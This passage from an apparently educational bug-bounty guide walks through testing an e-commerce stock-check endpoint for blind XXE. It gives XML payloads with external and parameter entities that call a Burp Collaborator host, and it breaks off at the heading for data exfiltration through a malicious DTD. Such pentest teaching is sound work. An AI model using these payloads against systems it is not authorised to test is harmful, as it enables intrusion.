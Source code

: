 2) Now as same as the above case(where we perform SSRF) , if in case SSRF won't work, we can test for blind XXE.
3) To perform Blind XXE , we add the our server addrs or burp collaborator cli. in the ENTITY.
4) Now the whole payload look like this...

	    <?xml version="1.0" encoding="UTF-8"?>
	    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "burp_collaborator_client.net"> ]>
	    	<stockCheck>
	    		<productId>2&xxe;</productId>
	    		<storeId>1</storeId>
	    	</stockCheck>
    
5) If we get DNS and HTTP interaction, Blind XXE confirmed..!!
---
### 3 - Blind XXE via XML parameter entities

1) Consider we're testing an E-commerce application in which application fetches stock of the product from server but does not display the result.


	   POST /product/stock HTTP/2
	   Host: subdomain.target.com
	   Cookie: session=ULqvEo6l9eIJ36rlH4NmVQivmqegNurA
	   Content-Length: 107
		...
		...
	   Connection: close
       ...
	   <?xml version="1.0" encoding="UTF-8"?>
	   <stockCheck>
	      <productId>2</productId>
		  <storeId>1</storeId>
	   </stockCheck>

2) Now as same as the above case(where we perform Blind XXE) , if in case it won't work we can test for bypass.
3) To perform Blind XXE via xml parameter, we do the same process as above but this time we call our entity in the ENTITY itself.
4) So the whole payload look like this...

       <?xml version="1.0" encoding="UTF-8"?>
	   <!DOCTYPE foo [<!ENTITY % prakhar SYSTEM "https://burp_collaborator_client"> %prakhar;] >
	   <stockCheck>
	      <productId>2</productId>
	      <storeId>1</storeId>
	   </stockCheck>
    
5) If we get DNS and HTTP interaction, Blind XXE confirmed..!!
---
### 4 - Blind XXE to exfiltrate data by external malicious DTD

1) Consider we're testing an E-commerce application in which application fetches stock of the product from server and the request goes like this ...
